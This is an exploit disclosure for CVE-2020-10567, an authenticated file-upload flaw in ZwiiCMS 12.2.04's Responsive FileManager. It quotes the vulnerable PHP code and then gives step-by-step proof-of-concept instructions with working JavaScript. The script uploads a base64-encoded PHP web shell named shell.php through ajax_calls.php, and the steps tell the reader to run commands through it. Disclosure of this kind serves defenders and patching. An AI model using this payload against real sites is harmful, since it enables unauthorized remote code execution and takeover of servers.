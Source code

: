 
# CVE: CVE-2020-10567
# Category: webapps


ZwiiCMS 12.2.04 uses "Responible FileManager" 9.14.0 for its file manager feature. ZwiiCMS is vulnerable to CVE-2020-10567 as it is possible for
an authenticated user to use ajax_calls.php to upload a php file via a base64 encoded file and gain Remote Code Execution
due to a lack of extension check on the uploaded file.

Original CVE author : hackoclipse
https://github.com/trippo/ResponsiveFilemanager/issues/600


Vulnerable code (ajax_calls.php) :

// there is no extension check on $_POST['name'] and the content of $_POST['url'] can be b64 decoded without being
necessarily an image

81  case 'save_img':
82      $info = pathinfo($_POST['name']);
83  $image_data = $_POST['url'];
84
85  if (preg_match('/^data:image\/(\w+);base64,/', $image_data, $type)) {
    86       $image_data = substr($image_data, strpos($image_data, ',') + 1);
87       $type = strtolower($type[1]); // jpg, png, gif
88
89       $image_data = base64_decode($image_data);


PoC:

1) Login in the Administration Panel.
2) Click on the Folder icon on the top of the panel.
3) Open the Developer Tools for that page.
4) Copy,Edit and Execute the Javascript Code below .
5) Access your PHP shell at http://ZWIICMS_URL/site/file/source/shell.php?cmd=COMMAND

Javascript Code
######

function submitRequest()
{
    var xhr = new XMLHttpRequest();
xhr.open("POST", "https:\/\/192.168.0.27\/zwiicms\/core\/vendor\/filemanager\/ajax_calls.php?action=save_img", true);
xhr.setRequestHeader("Accept", "*\/*");
xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded; charset=UTF-8");
xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
xhr.withCredentials = true;
var body = "url=data:image/jpeg;base64,PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOyA/Pg==&path=&name=shell.php";
var aBody = new Uint8Array(body.length);
for (var i = 0; i < aBody.length; i++)
aBody[i] = body.charCodeAt(i);
xhr.send(new Blob([aBody]));
}
submitRequest();

######